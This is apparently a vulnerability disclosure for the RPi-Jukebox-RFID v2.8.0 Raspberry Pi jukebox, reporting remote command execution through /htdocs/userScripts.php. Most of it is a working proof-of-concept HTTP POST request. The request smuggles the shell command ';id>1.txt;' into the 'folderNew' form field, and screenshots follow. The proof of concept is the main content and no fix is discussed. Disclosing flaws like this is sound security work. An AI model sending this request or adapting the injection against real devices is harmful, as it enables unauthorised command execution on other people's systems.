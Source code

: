 # RCE vulnerability in [RPi-Jukebox-RFID](https://github.com/MiczFlor/RPi-Jukebox-RFID) v2.8.0 of file /userScripts.php

**vender**:

- [MiczFlor/RPi-Jukebox-RFID: A Raspberry Pi jukebox, playing local music, podcasts, web radio and streams triggered by RFID cards, web app or home automation. All plug and play via USB. GPIO scripts available.](https://github.com/MiczFlor/RPi-Jukebox-RFID)

**SoftLink**:

- [Release v2.8.0: Fix Spotify Authentication · MiczFlor/RPi-Jukebox-RFID](https://github.com/MiczFlor/RPi-Jukebox-RFID/releases/tag/v2.8.0)

**Vulnerable File**

- /htdocs/userScripts.php

**Version**

- 2.8.0

### POC

```
POST /userScripts.php HTTP/1.1
Host: 192.168.129.130
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Priority: u=0, i
Content-Type: multipart/form-data; boundary=----geckoformboundary954485b962794cdd4e4e3867c23d1870
Origin: http://192.168.129.130
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101 Firefox/142.0
Referer: http://192.168.129.130/userScripts.php
Content-Length: 752

------geckoformboundary954485b962794cdd4e4e3867c23d1870
Content-Disposition: form-data; name="folder"

false
------geckoformboundary954485b962794cdd4e4e3867c23d1870
Content-Disposition: form-data; name="filename"


------geckoformboundary954485b962794cdd4e4e3867c23d1870
Content-Disposition: form-data; name="ACTION"

userScript
------geckoformboundary954485b962794cdd4e4e3867c23d1870
Content-Disposition: form-data; name="folder"

false
------geckoformboundary954485b962794cdd4e4e3867c23d1870
Content-Disposition: form-data; name="folderNew"

1;id>1.txt;
------geckoformboundary954485b962794cdd4e4e3867c23d1870
Content-Disposition: form-data; name="submit"

trackMove
------geckoformboundary954485b962794cdd4e4e3867c23d1870--

```

![image-20250828223843999](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508282238151.png)



![image-20250828223748883](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508282237029.png)

![image-20250828223903297](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508282239341.png)
